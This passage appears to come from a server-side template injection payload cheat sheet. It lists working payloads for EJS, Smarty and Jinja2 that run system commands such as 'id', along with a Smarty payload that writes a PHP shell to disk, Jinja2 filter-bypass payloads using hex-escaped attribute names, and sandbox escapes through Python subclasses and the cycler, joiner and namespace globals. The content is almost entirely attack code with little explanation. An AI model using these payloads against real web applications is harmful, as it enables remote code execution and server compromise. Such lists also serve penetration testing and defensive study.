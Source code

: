 ### EJS (JavaScript)

```
<% global.process.mainModule.require('child_process').exec('id', function(error, stdout, stderr) { %>
  <%= stdout %>
<% }); %>
```

### Smarty (PHP)

```
{php}system("id");{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php system('id'); ?>",self::clearConfig())}
```

## Advanced Exploitation Techniques

### Jinja2 Filter Bypass Payloads

```
{% raw %}
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("id")|attr("read")()}}

{{request|attr("__class__")|attr("__mro__")|attr("__getitem__")(1)|attr("__subclasses__")()|attr("__getitem__")(128)|attr("__init__")|attr("__globals__")|attr("__getitem__")("__builtins__")|attr("__getitem__")("__import__")("os")|attr("popen")("id")|attr("read")()}}
{% endraw %}
```

### Sandbox Escape Techniques

#### Python Sandbox Escape
```
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}
  {% if "warning" in x.__name__ %}
    {{x()._module.__builtins__['__import__']('os').popen("id").read()}}
  {% endif %}
{% endfor %}

# Using namespace creation
{{ namespace.__init__.__globals__.os.popen('id').read() }}

# Using cycler object in Flask/Jinja2
{{ cycler.__init__.__globals__.os.popen('id').read() }}

# Using joiner object in Flask/Jinja2
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{% endraw %}
```
